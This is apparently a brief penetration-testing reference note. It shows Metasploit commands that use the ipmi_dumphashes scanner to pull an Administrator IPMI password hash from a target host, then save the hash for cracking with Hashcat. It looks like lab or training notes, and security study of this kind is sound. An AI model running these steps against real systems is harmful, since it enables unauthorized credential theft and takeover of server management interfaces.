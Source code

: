 ```bash - kali
msfconsole
```

```bash - kali
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

```bash - kali
set RHOSTS $TARGET 
```

```bash - kali
run
```

The hash for user Administrator is retrieved. Let's save it in a file and use Hashcat to attempt to crack the hash.
```bash - kali
echo -n 3c08a6bf020500008edc65459227db9e4de83261ee2eafe9429a07eb96d30b745fef6f821dd97d81a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:80026d133489237175ee975d5dff53f4c923b396 > hash 
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#IPMI2 RAKP HMAC-SHA1]]